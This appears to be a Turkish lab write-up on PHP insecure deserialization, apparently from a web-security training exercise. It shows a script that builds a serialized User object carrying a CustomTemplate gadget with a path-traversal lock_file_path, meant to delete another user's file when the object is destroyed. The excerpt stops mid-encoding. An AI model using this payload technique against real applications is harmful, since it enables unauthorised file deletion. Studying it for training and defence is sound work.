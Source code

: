 ![Untitled](0x0D-e7c75cda4af14d9f8c7d57729ec14f3a/Untitled-11.png)

![Untitled](0x0D-e7c75cda4af14d9f8c7d57729ec14f3a/Untitled-12.png)

Eriştiğimiz kaynak kodlardaki kodu temel olarak kullanarak ilerleyebiliriz. 

```php
<?php
/*
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hswyhm8a08j9hw5s4jw6qm00v58dlwro";}
*/
class CustomTemplate {
    var $template_file_path;
    var $lock_file_path;

    function __destruct() {
        // Carlos thought this would be a good idea
        //if (file_exists($this->lock_file_path)) {
        //     unlink($this->lock_file_path);
        // }
        //echo $this->lock_file_path;
    }
}

class User{
    var $username;
    var $access_token;
}

$object = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"syr3gz1bmse9kg6obvf2ppno1tx272tp";}';

$payload = new User;
$payload->access_token = 'syr3gz1bmse9kg6obvf2ppno1tx272tp';
$payload->username = new CustomTemplate();
$payload->username->lock_file_path = "../../../../../../../../../../../../../../../../../../../home/carlos/morale.txt";
$payload->username->template_file_path = "test.txt";

echo urlencode(
    base64_encode(
```